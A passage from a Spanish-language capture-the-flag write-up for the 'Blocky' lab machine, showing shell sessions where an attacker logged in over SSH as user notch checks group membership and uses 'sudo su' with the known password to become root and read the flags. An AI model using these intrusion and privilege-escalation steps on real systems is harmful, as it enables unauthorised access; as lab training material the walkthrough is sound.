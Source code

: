```bash
7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ whoami
notch
notch@Blocky:~$
```

Para este caso, utilizaremos el acceso obtenido por ssh y ya dentro de la máquina como el usuario **notch** podemos visualizar la flag (user.txt). Ahora debemos encontrar una forma de escalar privilegios.

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$
```

Nos encontramos en el grupo **sudo** y además contamos con las credenciales del usuario **notch**; por lo tanto ya podemos convertirnos en **root**:

```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
